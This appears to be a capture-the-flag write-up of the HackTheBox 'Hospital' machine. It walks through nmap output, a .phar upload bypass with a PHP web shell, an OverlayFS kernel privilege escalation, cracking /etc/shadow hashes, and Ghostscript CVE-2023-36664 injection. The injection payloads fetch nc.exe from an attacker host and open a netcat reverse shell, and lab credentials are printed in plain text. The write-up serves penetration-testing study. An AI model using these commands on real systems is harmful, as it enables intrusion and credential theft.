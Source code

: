## Machine Info

![image-20231205091749572](./Hospital.assets/image-20231205091749572.png)

## Recon

```
PORT      STATE SERVICE           VERSION
22/tcp    open  ssh               OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 e1:4b:4b:3a:6d:18:66:69:39:f7:aa:74:b3:16:0a:aa (ECDSA)
|_  256 96:c1:dc:d8:97:20:95:e7:01:5f:20:a2:43:61:cb:ca (ED25519)
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2023-12-05 05:44:03Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
443/tcp   open  ssl/http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-title: Hospital Webmail :: Welcome to Hospital Webmail
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
1801/tcp  open  msmq?
2103/tcp  open  msrpc             Microsoft Windows RPC
2105/tcp  open  msrpc             Microsoft Windows RPC
2107/tcp  open  msrpc             Microsoft Windows RPC
2179/tcp  open  vmrdp?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3269/tcp  open  globalcatLDAPssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3389/tcp  open  ms-wbt-server     Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: HOSPITAL
|   NetBIOS_Domain_Name: HOSPITAL
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hospital.htb
|   DNS_Computer_Name: DC.hospital.htb
|   DNS_Tree_Name: hospital.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2023-12-05T05:45:01+00:00
| ssl-cert: Subject: commonName=DC.hospital.htb
| Not valid before: 2023-09-05T18:39:34
|_Not valid after:  2024-03-06T18:39:34
5985/tcp  open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
6404/tcp  open  msrpc             Microsoft Windows RPC
6406/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
6407/tcp  open  msrpc             Microsoft Windows RPC
6409/tcp  open  msrpc             Microsoft Windows RPC
6613/tcp  open  msrpc             Microsoft Windows RPC
6632/tcp  open  msrpc             Microsoft Windows RPC
8080/tcp  open  http              Apache httpd 2.4.55 ((Ubuntu))
|_http-open-proxy: Proxy might be redirecting requests
| http-title: Login
|_Requested resource was login.php
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.55 (Ubuntu)
9389/tcp  open  mc-nmf            .NET Message Framing
21715/tcp open  msrpc             Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Linux 5.X (91%)
OS CPE: cpe:/o:linux:linux_kernel:5.0
Aggressive OS guesses: Linux 5.0 (91%)
No exact OS matches for host (test conditions non-ideal).
Service Info: Host: DC; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows
```

- 443 SSL: https://hospital.htb/
- 8080 HTTP: http://hospital.htb:8080/
- 3389 MS WBT Server
- RPC

## Foothold

### 8080 - upload

- register a user, qwe:pass

![image-20231205094651653](./Hospital.assets/image-20231205094651653.png)

- upload 1.png ok, 1.php [x]
- test extention name: php, php1, php2, phtml, ...

![image-20231205094733009](./Hospital.assets/image-20231205094733009.png)

- `1.phar` [ok]
- enum path: **uploads/**

![image-20231205094808597](./Hospital.assets/image-20231205094808597.png)

- upload a web shell php, https://github.com/flozz/p0wny-shell

![image-20231205094820025](./Hospital.assets/image-20231205094820025.png)

![image-20231205094858093](./Hospital.assets/image-20231205094858093.png)

- get rshell on the local

![image-20231205094913738](./Hospital.assets/image-20231205094913738.png)

![image-20231205094917151](./Hospital.assets/image-20231205094917151.png)

- check ip addr -> inside a container WSL/Docker

### container priv esca

- check sys info -> kernel version **5.19.0**

```bash
www-data@webserver:/$ uname -a
Linux webserver 5.19.0-35-generic #36-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 3 18:36:56 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

- [g1vi/CVE-2023-2640-CVE-2023-32629: GameOver(lay) Ubuntu Privilege Escalation (github.com)](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)
- get root shell

![image-20231205095130285](./Hospital.assets/image-20231205095130285.png)

- check **shadow** file to get hash

```bash
root:$y$j9T$s/Aqv48x449udndpLC6eC.$WUkrXgkW46N4xdpnhMoax7US.JgyJSeobZ1dzDs..dD:19612:0:99999:7:::
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
```

- hashcat to crack hash -> **drwilliams:qwe123!@#**

![image-20231205095209311](./Hospital.assets/image-20231205095209311.png)

### 443 - mail service

- **login**: https://10.10.11.241/?_task=mail&_mbox=INBOX, by cred **drwilliams:qwe123!@#**

![image-20231205095323350](./Hospital.assets/image-20231205095323350.png)

- recon: **.eps** file (used by **GhostScript**) -> [jakabakos/CVE-2023-36664-Ghostscript-command-injection: Ghostscript command injection vulnerability PoC (CVE-2023-36664) (github.com)](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection/tree/main)

```bash
python3 CVE_2023_36664_exploit.py --inject --payload "curl -O http://10.10.14.15/nc.exe" --filename file.eps
python3 CVE_2023_36664_exploit.py --inject --payload "nc.exe 10.10.14.15 1234 -e cmd.exe" --filename file.eps
```

- write two emails **attached** with each file.eps -> get windows user shell

![image-20231205095444319](./Hospital.assets/image-20231205095444319.png)

## Privilege Escalation

- find a powershell script

![image-20231205095653546](./Hospital.assets/image-20231205095653546.png)

- cred: **hospital/drbrown:chr!$br0wn**
- use this cred to conn RPC
- enum RPC: `querydispinfo`; ref: [rpcclient enumeration - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb/rpcclient-enumeration?source=post_page-----791ad6dd24ed--------------------------------)

![image-20231205095738521](./Hospital.assets/image-20231205095738521.png)

- Administrator and Guest share some information together.
- check dir's ACL -> **xampp**, **Append Data** + **Write Data** [ok]

![image-20231205100108338](./Hospital.assets/image-20231205100108338.png)

- curl web php shell file into home path, visit it on browser to get admin shell

![image-20231205100245920](./Hospital.assets/image-20231205100245920.png)

![image-20231205100249077](./Hospital.assets/image-20231205100249077.png)

## Exploit Chain

upload exp -> web shell -> reverse shell -> container priv esca -> root priv -> cat shadow -> hash crack -> mail service login -> inject cmd into eps file -> email victim to trigger -> get win user priv shell -> admin + guest shared information -> curl down web shell -> admin priv shell
